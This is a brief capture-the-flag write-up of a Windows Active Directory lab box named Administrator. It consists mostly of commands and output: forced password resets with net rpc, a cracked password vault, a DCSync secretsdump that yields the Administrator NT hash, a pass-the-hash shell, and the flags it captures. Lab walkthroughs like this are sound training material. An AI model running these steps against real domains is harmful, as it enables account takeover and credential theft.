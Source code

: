 # Administrator HTB

As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich

## Enumeration

Olivia has "genericAll" over michael

```bash
net rpc password "michael" 'Test123!' -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.69.25"
```
And michael has the "forceChangePassword" over benjamin

``` bash
net rpc password "benjamin" 'Test123!' -U "administrator.htb"/"michael"%'Test123!' -S "10.129.69.25"
```

## Intrusion

tekieromucho     (Backu)
Backup.psafe3

```bash
*Evil-WinRM* PS C:\Users\emily\Documents> type ..\Desktop\user.txt
1feb43c02d4dcc761689db202bc5c16f
```

## Privilege Escalation

Getting information about bloodhound

```bash
❯ impacket-secretsdump  'administrator.htb'/'ethan':'limpbizkit'@10.129.69.25
Impacket v0.11.0 - Copyright 2023 Fortra

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::


❯ evil-winrm -i 10.129.69.25 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e                   
Evil-WinRM shell v3.5                     
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
1e64f47889f1ed2f01916ad32adf5474
*Evil-WinRM* PS C:\Users\Administrator\Documents> 

```


Due to ethan, has DCSYNC to get the secretsdump from the administrator


